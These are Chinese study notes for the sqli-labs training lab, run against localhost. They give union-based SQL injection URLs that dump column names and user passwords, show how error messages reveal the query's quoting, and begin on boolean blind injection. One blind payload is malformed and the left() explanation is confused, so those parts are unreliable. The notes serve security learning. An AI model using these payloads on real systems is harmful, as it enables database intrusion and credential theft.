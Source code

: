 ### 查字段名

http://127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

### 查数据

http://127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,username,password from users where id=2--+

1.输入参数?id=1'    ,若查表名时出现

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

说明开发者使用的查询是Select * from TABLE where id = (some integer value);

解决方法

将?id=1'后的'去掉

其他查询类型与Less-1相同



2.输入参数?id='   ,若查表名时出现

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''') LIMIT 0,1' at line 1

说明开发者使用的查询是Select login_name, select password from table where id= (‘our input here’)

解决方法

将?id=1'改成?id=1')--+



3.输入参数?id=1"  ,若查表名时出现

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1

说明这里它意味着，代码当中对 id 参数进行了 “” 和 () 的包装。

解决方法

将?id=1"改成?id=1")--+

## 盲注的注解

### 一、基于布尔SQL的盲注（构造逻辑判断）

截取字符串相关函数解析 http://www.cnblogs.com/lcamry/p/5504374.html

1.left(database(),1)>’s’   作用：database()显示数据库名称，left(a,b)从左侧截取 a 的前 b 位 ，‘s'为数据库名

如left(database(),1)='a'，若database()为security，则意思为s是否大于'a'

2.ascii(substr((select table_name information_schema.tables where tables_schema = database()limit 0,1),1,1))=101 --+      作用：substr(a,b,c)从 b 位置开始，截取字符串 a 的 c 长度。Ascii()将某个字符转换 为 ascii 值
